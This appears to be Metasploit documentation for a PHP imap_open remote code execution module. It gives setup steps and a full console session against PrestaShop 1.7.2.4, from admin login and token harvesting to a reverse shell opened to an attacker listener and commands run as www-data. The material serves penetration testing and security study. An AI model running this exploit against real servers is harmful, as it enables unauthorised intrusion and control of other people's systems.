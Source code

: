 ## Verification Steps

  1. Install a vulnerable application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/php_imap_open_rce```
  4. Do: ```set TARGETURI [URI]```
  5. Do: ```set USERNAME [username]```
  6. Do: ```set PASSWORD [password]```
  7. Do: ```set target [target]```
  8. Do: ```run```
  9. You should get a shell.

## Options

  **TARGETURI**

  The URI for the target.  This may change by target.  Default is ` `.
  Prestashop should be the admin URI, similar to `/admin2769gx8k3`.

## Scenarios

### PrestaShop 1.7.2.4 on Ubuntu 16.04.4 with PHP 7.0

  ```
  resource (presta.rb)> use exploit/linux/http/php_imap_open_rce
  resource (presta.rb)> set TARGETURI /admin2769gx8k3
  TARGETURI => /admin2769gx8k3
  resource (presta.rb)> set USERNAME ubuntu@none.com
  USERNAME => ubuntu@none.com
  resource (presta.rb)> set PASSWORD ubuntuubuntu
  PASSWORD => ubuntuubuntu
  resource (presta.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (presta.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (presta.rb)> set target 0
  target => 0
  resource (presta.rb)> set verbose true
  verbose => true
  resource (presta.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Redirected to http://1.1.1.1/admin2769gx8k3/
  [*] Redirected to http://1.1.1.1/admin2769gx8k3/index.php?controller=AdminLogin&token=6dab1f7b4eea17d2b44a8929ead9df68
  [*] Token: 6dab1f7b4eea17d2b44a8929ead9df68 and Login Redirect: http://1.1.1.1/admin2769gx8k3/&token=09283f9efc45fc75eca3b8d5f1b1f92f
  [*] Logging in with ubuntu@none.com:ubuntuubuntu
  [*] Login JSON Response: {"hasErrors":false,"redirect":"http:\/\/1.1.1.1\/admin2769gx8k3\/index.php?controller=AdminDashboard&token=e324e8b387afb1874947db9b1ba411c8"}
  [+] Login Success, loading admin dashboard to pull tokens
  [*] Customer Threads Token: ec653c8bfc09754fc63aaa94101911dc
  [+] Sending Payload with Final Token: ec653c8bfc09754fc63aaa94101911dc
  [*] IMAP server change left on server, manual revert required.
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:41964) at 2018-11-20 18:29:28 -0500
  
  uname -a
  Linux ubuntu1604 4.4.0-138-generic #164-Ubuntu SMP Tue Oct 2 17:16:02 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
